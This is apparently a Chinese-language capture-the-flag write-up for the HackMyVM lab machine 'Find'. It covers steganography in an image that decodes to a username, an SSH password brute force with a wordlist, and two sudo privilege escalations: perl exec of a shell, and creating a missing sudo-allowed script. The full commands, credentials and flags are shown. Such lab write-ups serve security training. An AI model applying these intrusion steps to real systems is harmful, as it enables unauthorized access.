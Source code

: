 # Find

2025.02.04 https://hackmyvm.eu/machines/machine.php?vm=Find

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

直接看 80 web 服务，一般 22 ssh 不会出现直接问题。web 首页是 apache 的服务页面，gobuster 扫描一下隐藏目录。

http://192.168.5.40/robots.txt 提示: find user :) 同时发现一个图片: http://192.168.5.40/cat.jpg 可能有隐写，exiftool 发现 https://commons.wikimedia.org/wiki/File:Cat03.jpg，原图中也有一个cat.jpg，但是这两个cat图片的内容不一样，对比后发现在cat.jpg的末尾中多出来了一串字符串：

```
>C<;_"!~}|{zyxwvutsrqponmlkjihgfedcba`_^]\[ZYXWVUTSRQPONMLKJ`_dcba`_^]\Uy<XW
VOsrRKPONGk.-,+*)('&%$#"!~}|{zyxwvutsrqponmlkjihgfedcba`_^]\[ZYXWVUTSRQPONML
KJIHGFEDZY^W\[ZYXWPOsSRQPON0Fj-IHAeR
```

经过搜索，找到了这个解密网站: https://www.malbolge.doleczek.pl/ 解密后得到用户名: missyred

目前得到了用户名，根据提示，可能需要这个用户名登陆 ssh，尝试 rockyouo 爆破，得到密码: iloveyou

登陆后，sudo -l 发现: (kings) /usr/bin/perl , 提权到用户 kings : sudo -u kings perl -e 'exec "/bin/bash";'

得到 user flag:

```
$ cat user.txt
f4e690f638c01bd8a19fb1349d40519c
```

sudo -l 发现: (ALL) NOPASSWD: /opt/boom/boom.sh 但是这个文件并不存在，我们可以手动创建，然后直接提权到 root。

```
mkdir -p /opt/boom/
echo '/bin/bash' > /opt/boom/boom.sh
chmod +x /opt/boom/boom.sh
sudo -u root /opt/boom/boom.sh
```

最终得到了 root flag:

```
root@find:~# cat root.txt
c8aaf0f3189e000006c305bbfcbeb790
```
